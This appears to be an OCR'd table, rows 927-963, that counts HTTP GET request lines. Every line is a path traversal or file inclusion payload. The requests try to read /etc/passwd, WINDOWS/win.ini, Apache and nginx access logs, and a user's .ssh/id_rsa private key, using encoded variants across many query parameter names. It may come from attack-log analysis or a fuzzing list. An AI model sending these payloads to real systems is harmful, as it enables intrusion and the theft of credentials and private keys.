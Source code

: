 |  927 |                     1 | GET /../../../../../../var/log/apache2/access.log HTTP/1.1                                                           |
|  928 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fvar/log/apache2/access.log HTTP/1.1                                   |
|  929 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fvar/log/nginx/access.log HTTP/1.1                                     |
|  930 |                     1 | GET /?include=../../../../WINDOWS/win.ini HTTP/1.1                                                                   |
|  931 |                     1 | GET /?path=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  932 |                     1 | GET /?view=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  933 |                     1 | GET /?content=../../../../WINDOWS/win.ini HTTP/1.1                                                                   |
|  934 |                     1 | GET /?module=../../../../WINDOWS/win.ini HTTP/1.1                                                                    |
|  935 |                     1 | GET /?load=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  936 |                     1 | GET /?layout=../../../../WINDOWS/win.ini HTTP/1.1                                                                    |
|  937 |                     1 | GET /?theme=../../../../WINDOWS/win.ini HTTP/1.1                                                                     |
|  938 |                     1 | GET /?lang=../../../../WINDOWS/win.ini HTTP/1.1                                                                      |
|  939 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cetc/passwd HTTP/1.1                                                         |
|  940 |                     1 | GET /?dir=../../../../WINDOWS/win.ini HTTP/1.1                                                                       |
|  941 |                     1 | GET /?navigation=../../../../WINDOWS/win.ini HTTP/1.1                                                                |
|  942 |                     1 | GET /?source=../../../../WINDOWS/win.ini HTTP/1.1                                                                    |
|  943 |                     1 | GET /?folder=../../../../WINDOWS/win.ini HTTP/1.1                                                                    |
|  944 |                     1 | GET /?config=../../../../WINDOWS/win.ini HTTP/1.1                                                                    |
|  945 |                     1 | GET /?asset=../../../../WINDOWS/win.ini HTTP/1.1                                                                     |
|  946 |                     1 | GET /?template_file=../../../../WINDOWS/win.ini HTTP/1.1                                                             |
|  947 |                     1 | GET /?action=../../../../WINDOWS/win.ini HTTP/1.1                                                                    |
|  948 |                     1 | GET /?callback=../../../../WINDOWS/win.ini HTTP/1.1                                                                  |
|  949 |                     1 | GET /?section=../../../../WINDOWS/win.ini HTTP/1.1                                                                   |
|  950 |                     1 | GET /?layout=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                              |
|  951 |                     1 | GET /?theme=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                               |
|  952 |                     1 | GET /?lang=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                                |
|  953 |                     1 | GET /?section=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                             |
|  954 |                     1 | GET /?dir=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                                 |
|  955 |                     1 | GET /?navigation=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                          |
|  956 |                     1 | GET /?source=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                              |
|  957 |                     1 | GET /?folder=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                              |
|  958 |                     1 | GET /?config=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                              |
|  959 |                     1 | GET /?inc=../../../../WINDOWS/win.ini HTTP/1.1                                                                       |
|  960 |                     1 | GET /?template_file=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                       |
|  961 |                     1 | GET /?action=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                              |
|  962 |                     1 | GET /?callback=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                            |
|  963 |                     1 | GET /?data=../../../../home/user/.ssh/id_rsa HTTP/1.1                                                                |